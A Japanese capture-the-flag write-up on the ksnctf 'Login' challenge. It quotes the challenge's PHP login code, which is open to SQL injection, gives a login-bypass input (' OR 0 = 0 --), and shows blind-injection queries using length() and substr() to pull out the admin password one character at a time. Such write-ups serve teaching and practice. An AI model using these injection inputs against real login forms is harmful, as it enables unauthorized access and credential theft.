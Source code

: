 ## [6. Login](http://ksnctf.sweetduet.info/problem/6)

アクセスするとログインフォームがあり、"admin" ユーザでログインせよと書いてある。
とりあえずユーザ名を "admin", パスワードを `' OR 0 = 0 --` とすればログインはできるが、これでflagが得られるわけではなく、以下のように表示される。

```
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:

<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}

    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';

    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
...
```

adminユーザのパスワードがflagになっているようだ。
しかし、このソースを見ると、SQLiによってパスワードを直接得ることは難しい。

今回のような場合、SQLの `length()` や `substr()` 関数を使ってパスワードを絞り込んでいく方法がある。
まず、SQLクエリが

```sql
SELECT * FROM user WHERE id='admin' AND (SELECT length(pass) FROM user WHERE id='admin') < 30; -- ' AND pass=''''
```

などになるように `id` を指定すると、パスワードの長さが30より小さいかが分かる。
これによってパスワードの長さを絞りこめる。

次に、

```sql
SELECT * FROM user WHERE id='admin' AND substr((SELECT pass FROM user WHERE id='admin'), 1, 1) = 'a'; -- ' AND pass=''''
```

となるようにすると、パスワードの1文字目が 'a' であるかが分かる。
他の位置、文字に対しても同様にして、パスワード全体を取得できる。

* [Rust版](https://github.com/ordovicia/ksnctf/blob/master/6-Login/solve.rs)
* [Python版](https://github.com/ordovicia/ksnctf/blob/master/6-Login/solve.py)
